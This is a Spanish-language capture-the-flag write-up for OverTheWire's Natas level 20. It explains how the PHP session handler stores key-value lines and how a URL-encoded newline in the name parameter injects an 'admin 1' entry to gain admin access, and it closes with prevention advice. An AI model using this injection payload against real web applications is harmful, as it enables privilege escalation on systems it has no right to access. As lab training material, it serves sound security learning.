 La página consiste en un formulario para cambiar el nombre de usuario. Después de usarla un par de veces, notamos que no ofrece ningún tipo de feedback sobre nuestras acciones. Revisando el código, observamos que existe un modo de [debug](http://natas20.natas.labs.overthewire.org/index.php?debug=true). Al usarlo y compararlo con el código fuente, notamos el siguiente flujo del programa:

* `myread()` verifica que el ID de sesión sea válido
```php
if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID");
        return "";
    }
```

* Si `SID` es válido, revisa si existe un archivo para la sesión
```php
$filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
```

* Si no existe un archivo de sesión, `mywrite()` verifica que el ID de sesión sea válido, crea el archivo y guarda el nombre de usuario
```php
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
```

* Si existe un archivo de sesión, `myread()` lee el contenido del archivo y lo descompone en pares de valores `key value`, para guardarlos en la sesión
```php
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode() ?: "";
```

* Si la sesión tiene almacenado el valor `admin 1` se muestran las credenciales del siguiente nivel.
```php
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
```

Al analizar la manera en que se almacenan y leen los valores de la sesión, llegamos a la conclusión de que, simulando el formato del archivo de sesión, podemos agregar la clave `admin` con el valor `1` a nuestra sesión para obtener privilegios de administrador

* Archivo de sesión con usuario `realAdmin`
```
name realAdmin
```
* Archivo de sesión con usuario `realAdmin\nadmin 1`
```
name realAdmin
admin 1
```

Esto podemos lograrlo usando la codificación de URL, donde:
* `%0A` Representa un salto de línea.
* `%20` Representa un espacio

```
http://natas20.natas.labs.overthewire.org/index.php?debug=true&name=realAdmin%0Aadmin%201
```

Al cargar la [URL](http://natas20.natas.labs.overthewire.org/index.php?debug=true&name=realAdmin%0Aadmin%201) por primera vez, se modificará el nombre de usuario, cuando recargamos la página, al leer el archivo de sesión, el valor de `admin` se modificará, dándonos la contraseña del siguiente nivel.

---
## **Conclusión**
 
No validar adecuadamente el contenido de los archivos, especialmente los de sesión, es una vulnerabilidad que puede ser explotada fácilmente. Para prevenir este tipo de ataques, es necesario implementar no solo la validación de los datos, sino también técnicas de almacenamiento seguro, como el cifrado de los archivos de sesión.

---
-,"  
[_P
